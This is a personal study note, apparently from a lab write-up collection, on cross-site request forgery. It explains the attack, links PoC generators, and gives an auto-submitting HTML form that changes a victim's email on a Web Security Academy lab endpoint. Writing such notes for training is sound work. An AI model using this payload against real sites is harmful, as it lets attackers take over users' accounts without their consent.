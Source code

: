 # 🥐 Cross-site request forgery (CSRF)

CSRF allows an attacker to induce users to perform actions that they do not intend to perform

<figure><img src="../.gitbook/assets/image (856).png" alt=""><figcaption></figcaption></figure>

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally like changing the email address on their account, changing their password, or to make a funds transfer

since we do not have burp pro, we can use this repo to create our PoC: [https://github.com/merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator) OR [https://security.love/CSRF-PoC-Genorator/](https://security.love/CSRF-PoC-Genorator/)

### Lab: CSRF vulnerability with no defenses

We see a "update email" field:

<figure><img src="../.gitbook/assets/image (857).png" alt=""><figcaption></figcaption></figure>

I capture the request of an email change:

<figure><img src="../.gitbook/assets/image (858).png" alt=""><figcaption></figcaption></figure>

I then go on the exploit server and write this code:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

